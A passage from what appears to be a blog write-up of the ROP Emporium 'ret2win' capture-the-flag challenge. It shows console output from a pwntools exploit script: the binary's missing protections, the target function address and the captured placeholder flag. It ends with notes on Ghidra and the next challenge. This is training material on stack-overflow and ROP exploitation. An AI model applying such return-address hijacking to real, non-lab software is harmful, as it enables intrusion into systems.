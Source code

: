 Now, if we run the script we should print the flag:
```console
bitis@Workstation ~/c/r/ret2win> python win.py
[*] '/home/bitis/ctf/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
ret2win() address: 0x400756
[+] Starting local process '/home/bitis/ctf/ropemporium/ret2win/ret2win': pid 3960
[*] Switching to interactive mode
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/bitis/ctf/ropemporium/ret2win/ret2win' stopped with exit code 0 (pid 3960)
[*] Got EOF while reading in interactive
```

And we just solved our first pwn challenge! If you aren't that comfortable reading assembly yet, you can also try to use `Ghidra`, however I won't get into that in this post. In my next post I'll go through the "split" challenge from Ropemporium, in which we'll have to search the binary for useful strings. 